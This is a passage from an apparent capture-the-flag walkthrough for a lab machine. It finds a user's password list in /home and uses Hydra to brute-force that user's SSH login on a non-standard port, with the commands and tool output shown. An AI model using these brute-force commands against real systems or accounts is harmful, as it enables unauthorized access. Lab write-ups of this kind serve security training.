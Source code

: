 We can explore the `/home` directory to look for users present on the machine:

```
$ cd /home
$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 29  2020 .
drwxr-xr-x 23 root root 4096 Feb 29  2020 ..
drwxr-x---  3 jack jack 4096 Feb 29  2020 jack
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
```

Here, we can see that there is only one user `jack` on the machine. Along with that we can see a file named `jacks_password_list` which contains a list of random strings. From the file name we can assume that one out of those random strings would be the password to `jack`'s account. But we can't try each password one by one. So, we can use `Hydra` to bruteforce those password. To do so, we need to copy all the content of `jacks_password_list` in a file on our attacking machine which we can pass to `Hydra`.

```
┌─[tester@parrot-virtual]─[~/Downloads/jackofalltrades]
└──╼ $hydra -l jack -P pass 10.10.137.227 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-27 23:05:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:1/p:25), ~2 tries per task
[DATA] attacking ssh://10.10.137.227:22/
[ERROR] could not connect to ssh://10.10.137.227:22 - Socket error: disconnected
```

In the first attempt, `Hydra` is not able to connect with the target machine and returns a `Socket Error`. This is because, `Hydra` does not know about the changed service port configuration on the target machine. So, we can make `Hydra` perform SSH bruteforce attack on on port 80 by changing the command as:

```
┌─[✗]─[tester@parrot-virtual]─[~/Downloads/jackofalltrades]
└──╼ $hydra -l jack -P pass ssh://10.10.137.227:80
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-27 23:07:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:1/p:25), ~2 tries per task
[DATA] attacking ssh://10.10.137.227:80/
[80][ssh] host: 10.10.137.227   login: jack   password: ****************
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-27 23:07:54
```
